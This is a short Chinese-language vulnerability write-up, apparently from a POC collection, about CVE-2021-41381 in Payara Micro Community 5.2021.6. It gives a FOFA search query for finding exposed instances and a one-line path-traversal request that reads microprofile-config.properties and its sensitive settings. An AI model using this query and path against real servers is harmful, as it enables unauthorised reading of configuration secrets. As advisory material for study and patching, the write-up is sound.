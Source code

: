 # PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

## 漏洞描述

PayaraMicro microprofile-config.properties文件配置错误的情况下可被任意用户读取，获取敏感信息

## 漏洞影响

```
Payara Micro Community 5.2021.6
```

## FOFA

```
app="Payara-Micro"
```

## 漏洞复现

产品页面

![image-20220525163706617](./images/202205251637689.png)

验证POC

```
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![image-20220525163715004](./images/202205251637074.png)